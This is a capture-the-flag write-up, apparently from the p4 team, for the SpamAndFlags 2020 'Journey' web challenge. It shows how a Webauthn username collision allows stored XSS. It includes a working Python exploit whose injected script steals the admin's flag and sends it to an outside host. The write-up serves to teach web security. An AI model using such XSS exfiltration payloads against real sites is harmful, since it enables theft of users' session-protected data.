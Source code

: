 # Journey: Chapter I (web, 278+16 pts, 10 solves)

To quote the source of `admin.html`,  
```html  
Your flag is: <span></span>  

jsonReq('/get_admin').then(data => { console.log(data);
$("#flag").text(data.flag); // ...  
```

In the server source, we see  
```javascript  
app.get('/get_admin', (req, res) => req.session.isAdmin ? res.send({ flag:
process.env.FLAG }) : res.send({ err: 'you are not an admin' }))  
app.get('/admin_login', (req, res) => {  
   if (crypto.createHash("sha256").update(req.query.pass).digest("hex") ===
"03d8cdb4ca4edf3f1a1f85d54ebda0bd456b9a7d68029c8fe27ed1cdd7a4e2f3") {  
       req.session.isAdmin = true  
       res.redirect('/admin.html')  
   }  
   else  
       res.send({ err: 'incorrect password' })  
})  
```  
This means that we either need a way to change arbitrary things in the
session,  
or have the admin execute some JavaScript on our behalf. For a moment, we
might  
contemplate this part of the code:  
```javascript  
app.use(session({ secret: 'keyboard cat', saveUninitialized: true, resave:
false, cookie: { maxAge: 48 * 60 * 60 * 1000 /* 48 hours */ } }))  
```  
... but a quick look at the documentation of `express-session` shows that  
the session contents are stored server-side and the secret is only used to  
sign the session ID (which itself is, if I'm reading the code correctly,  
24 cryptorandom bytes).

Thus, it seems that XSS is the goal for this part of the challenge.

The problem stems from here:  
```javascript  
const db = new LevelAdapter('userdb');  
const webauthn = new Webauthn({ origin: ORIGIN, store: db, rpName:
'SpamAndFlags CTF 2020 - Journey challenge' })  
app.use('/webauthn', webauthn.initialize())  
// ...  
app.get('/favorites', async function (req, res) {  
   const { favId, type } = req.query  
   const obj = await db.get(`fav_${favId}`)  
   if (obj && type in obj)  
       res.send(obj[type])  
   else  
       res.send({ err: 'not found' })  
});  
```  
The share-your-favorites feature shares the database with Webauthn. Upon a
quick  
inspection, we see that the latter uses usernames as the database keys:  
```javascript  
const user = {  
 id: base64url(crypto.randomBytes(32)),  
 [usernameField]: username,  
}

Object.entries(this.config.userFields).forEach(([bodyKey, dbKey]) => {  
 user[dbKey] = req.body[bodyKey]  
})

await this.store.put(username, user)  
```

What's this `userFields` thing? No such key was passed to the Webauthn
constructor,  
so the default will be used: `['name', 'displayName']`. This means that, if we
hit  
the `/webauthn/register` endpoint with `name` starting with `fav_`, we can
make  
the `/favorites` endpoint operate over an object we control:

```python  
from random import randint  
import requests as rq

URL = "http://journey.ctf.spamandhex.com"  
ID = 'pwnujemy' + str(randint(0, 10**9))

payload = '<script>fetch("/get_admin",
{method:"GET",credentials:"include"}).then(response =>
response.text()).then(flag =>
window.location="https://jakub.kadziolka.net/1337/cat.jpg?"+flag);</script>'

challenge = rq.post(URL+"/webauthn/register",  
   json={  
       'name': 'fav_' + ID,  
       'displayName': payload  
   }).json()

report = rq.get(URL+"/report",  
   params={  
       'url': URL+"/favorites?type=displayName&favId="+ID,  
   })  
```  

Original writeup (https://github.com/p4-team/ctf/tree/master/2020-05-10-spam-
and-flags-teaser/journey1).